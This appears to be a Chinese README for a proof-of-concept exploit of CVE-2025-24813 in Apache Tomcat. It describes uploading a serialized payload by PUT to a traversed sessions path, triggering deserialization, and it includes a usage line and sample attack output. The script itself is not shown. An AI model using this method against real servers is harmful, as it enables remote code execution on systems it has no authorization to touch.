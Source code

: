 # CVE-2025-24813 Apache Tomcat RCE 漏洞验证代码
用于利用 CVE-2025-24813，这是一个 Apache Tomcat 中的远程代码执行（RCE）漏洞。该漏洞允许攻击者上传恶意序列化负载到服务器，当满足特定条件时，通过反序列化机制实现任意代码执行。
---

## 描述

**CVE-2025-24813** 是一个理论上的 Apache Tomcat 远程代码执行（RCE）漏洞，它利用了服务器对上传会话文件和反序列化机制的不当处理。通过将精心制作的负载上传到可写目录（例如 `/uploads/../sessions/`），攻击者可以在服务器处理上传的会话文件并触发负载反序列化时，执行任意命令。

---

## 成功利用的前提条件

为了使此 PoC 成功利用漏洞，必须满足以下条件：

1. **Apache Tomcat 版本**: 目标服务器必须运行易受攻击的 Apache Tomcat 版本。
2. **可写目录**: 服务器必须允许 PUT 请求。
3. **反序列化触发**: 服务器必须处理上传的会话文件（例如，通过 GET 请求访问 `/index.jsp`）并触发负载的反序列化。
4. **Java 环境**: 攻击者的机器上必须安装 Java，以便使用 `ysoserial` 或编译基于 Java 的负载。
5. **ysoserial (可选)**: 如果使用 `ysoserial` 类型的负载，本地必须有 `ysoserial.jar` 文件。

---

~~~
python CVE-2025-24813.py <目标URL> [选项]
~~~

## 输出
* 成功利用:
[+] 服务器可通过PUT写入: http://localhost:8081/check.txt 
[*] 会话ID: absholi7ly 
[+] 负载生成成功: payload.ser 
[+] 负载上传状态为409(冲突): http://localhost:8081/uploads/../sessions/absholi7ly.session 
[+] 利用成功！反序列化后服务器返回500。 
[+] 目标 http://localhost:8081 易受 CVE-2025-24813 攻击！ 
[+] 临时文件已删除: payload.ser
* 利用失败:
[+] 服务器可通过PUT写入: http://localhost:8081/check.txt 
[*] 会话ID: absholi7ly 
[+] 负载生成成功: payload.ser 
[-] 负载上传失败: http://localhost:8081/uploads/../sessions/absholi7ly.session (HTTP 403) 
[-] 目标 http://localhost:8081 不易受攻击或利用失败。 
[+] 临时文件已删除: payload.ser